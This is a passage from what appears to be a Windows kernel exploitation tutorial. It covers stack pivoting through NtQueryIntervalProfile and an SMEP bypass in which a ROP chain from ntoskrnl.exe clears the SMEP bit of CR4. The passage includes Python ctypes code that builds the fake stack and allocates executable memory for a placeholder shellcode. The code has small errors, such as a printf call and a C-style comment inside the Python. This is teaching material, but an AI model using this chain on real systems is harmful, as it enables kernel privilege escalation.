 ```python
    windll.ntdll.NtQueryIntervalProfile(0x1234, fake_stack_ptr)
    write(backup_function_pointer, hal_dispatch_table_addr + 0x8)
```

With the techniques explained above we should be able to take control over the kernel stack and execute our ROP chain. The next steps are basically bypass the SMEP and finally jump to our shellcode.


#### 3 - SMEP Bypass

SMEP stands for Supervisor Mode Execution Prevention. It is a security feature intended to prevent code placed in userland memory pages to be executed by the kernel. Since this is exaclty our objective for this exploit, we must find a way to circumvent this feature.

The SMEP is controlled by the [20th bit (starting from index 0) of the CR4 register](https://en.wikipedia.org/wiki/Control_register#SMEP). Since we cannot use a userland shellcode to disable the SMEP (this is exactly what SMEP prevents), we must use a kernel code (a ROP chain in ntoskrnl.exe, for example) to disable it.

So the idea here is: after performing the stack pivoting, the first thing in our stack should be a ROP chain that modifies the value of the CR4 register, disabling its 20th bit.

Long story short, this is the ROP chain we will use (the gadgets are available in ntoskrnl.exe):

```python
0x0000000000205dbc              # pop rcx; ret
0x2506f8                        # CR4 register value for disabled SMEP
0x000000000039df47              # mov cr4, rcx; ret;
address_to_userland_shellcode
```

Basically, the first gadget will pop the value (0x2506f8) at the top of the stack to the RCX register. This will be the new value of the CR4 register, with the 20th bit disabled. Then, the value in RCX will be moved to the CR4 register.

We can place the address of our userland shellcode right after the ROP chain that disables SMEP, so when the last gadget returns, our shellcode will be executed. The only thing you should take care is ensuring the shellcode memory region is executable. You can use the PAGE_EXECUTE_READWRITE constant in VirtualAlloc for this purpose. The updated code of our still unfinished function to generate the fake stack is the following:

```python
def get_fake_stack_addr():
    FAKE_STACK_SIZE = 0xD000

    shellcode = bytearray(b'SOME_SHELLCODE_HERE')

    windll.kernel32.VirtualAlloc.restype = c_void_p
    shellcode_buff = windll.kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

    if shellcode_buff == 0:
        printf('Failed to allocate buffer for shellcode')
        return -1

    tmp_c_buffer = (c_char * len(shellcode)).from_buffer(shellcode)

    windll.kernel32.RtlMoveMemory.argtypes = [c_void_p, c_void_p, c_ulong]
    windll.kernel32.RtlMoveMemory(shellcode_buff, tmp_c_buffer, len(shellcode))

    fake_stack = bytearray(struct.pack('<Q', g_pop_rcx_addr))
    fake_stack += struct.pack('<Q', cr4_smep_disabled)
    fake_stack += struct.pack('<Q', g_mov_cr4_rcx_addr)
    fake_stack += struct.pack('<Q', shellcode_buff)

	// 0x00ffffff is our preferred address, a 32-bit value
    buffer = windll.kernel32.VirtualAlloc(0x00ffffff, FAKE_STACK_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
```